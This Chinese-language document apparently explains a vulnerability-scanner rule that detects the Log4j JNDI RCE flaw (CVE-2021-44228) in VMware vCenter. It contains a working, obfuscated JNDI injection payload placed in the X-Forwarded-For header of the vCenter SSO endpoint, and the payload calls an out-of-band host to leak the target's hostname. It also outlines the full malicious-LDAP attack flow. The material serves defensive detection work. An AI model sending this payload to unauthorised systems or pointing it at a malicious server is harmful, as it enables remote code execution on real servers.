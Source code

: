 # VMware VCenter - Log4j JNDI RCE 漏洞（CVE-2021-44228）探测原理说明

## 1. 漏洞简介

VMware VCenter 存在 Apache Log4j JNDI 注入远程代码执行漏洞（CVE-2021-44228）。攻击者可通过构造恶意请求，远程执行任意代码，危害系统安全。

## 2. 影响范围

- 受影响产品：VMware VCenter（使用受影响 Log4j 版本）
- 只要日志、参数或配置中存在用户可控内容，均可能被利用

## 3. 漏洞原理

Log4j2 在处理日志消息时支持 JNDI 查找。攻击者可通过注入特殊payload，诱使 Log4j2 访问恶意JNDI服务器（如LDAP），加载并执行远程代码。

## 4. 利用方式与攻击流程

1. 攻击者搭建恶意LDAP服务器，返回恶意Java类。
2. 构造带有JNDI payload的HTTP请求，发送到VCenter接口。
3. 日志记录参数时，Log4j2解析payload，触发JNDI查找，访问攻击者LDAP服务器。
4. 恶意Java类被加载并执行，实现RCE。

## 5. 探测原理与流程（yaml 规则详细说明）

该yaml规则利用OAST/DNSLog平台（如Interactsh）进行无害化探测，流程如下：

### 5.1 探测请求的构造

- 发送GET请求到如下接口，X-Forwarded-For头部注入payload：
  ```
  GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1
  Host: <目标主机>
  X-Forwarded-For: ${jndi:${lower:d}n${lower:s}://${env:hostName}.<interactsh-url>}
  ```
  - <interactsh-url>为OAST平台生成的唯一域名。

### 5.2 预期响应与交互

- **HTTP响应内容**：
  - 该规则主要依赖OAST平台的DNS交互，不强制要求特定响应内容。
- **OAST平台交互**：
  - 若目标存在漏洞，Log4j2解析payload时会向OAST域名发起DNS查询，OAST平台记录该行为。

### 5.3 判定逻辑

- 只有当：
  1. OAST平台收到带有对应主机名的DNS查询，
  2. DNS查询格式与payload匹配，
  才判定目标存在Log4j JNDI RCE漏洞。

- **判定流程伪代码**：
  ```pseudo
  payload = '${jndi:${lower:d}n${lower:s}://${env:hostName}.<oast-domain>}'
  发送GET /websso/SAML2/SSO/vsphere.local，X-Forwarded-For头为payload
  等待OAST平台回调
  若DNS查询中包含hostName：
      判定目标存在漏洞
  ```

- **流程图**：
  ```mermaid
  graph TD
      A[发送带payload的GET请求到/websso/SAML2/SSO/vsphere.local] --> B[等待OAST平台DNS回显]
      B --> C{DNS查询中含主机名?}
      C -- 否 --> F[无漏洞或未触发]
      C -- 是 --> E[判定目标存在Log4j JNDI RCE漏洞]
  ```

通过上述流程，既保证了探测的准确性，也避免了对目标系统的实际危害。

## 6. 参考链接

- [VMware官方安全公告](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)
- [Log4j 官方安全公告](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 